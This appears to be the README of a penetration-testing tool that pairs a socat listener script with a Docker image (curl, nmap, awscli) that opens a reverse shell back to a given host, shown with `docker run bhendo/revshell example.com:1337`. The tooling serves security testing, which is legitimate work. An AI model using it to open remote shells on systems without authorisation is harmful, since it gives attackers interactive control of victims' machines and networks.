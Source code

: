 # REVSHELL

A reverse shell docker image and server script for use during testing

## Getting started

### Server

The revshell server simply runs `socat` as a listener and waits for a connection from the Internet

#### Requirements

* socat e.g. `apt install socat`
* must be internet accessible
* inboud firewall rule for whichever port you choose

#### Launching the server

The server can be launched by providing a port to the `revshellsrv.sh` script

```bash
./revshellsrv.sh 1337
```

### Docker

The revshell docker image contains a number of tools to help with network discovery.

#### Installed tools

* curl
* nmap
* awscli

**Note** more tools can be installed by editing the `Dockerfile`

#### Running the container

The container can be run at the command line or with any orchestration tool. The `docker-entrypoint` expects a `host:port` combination as the Docker `CMD`

```bash
docker run bhendo/revshell example.com:1337
```



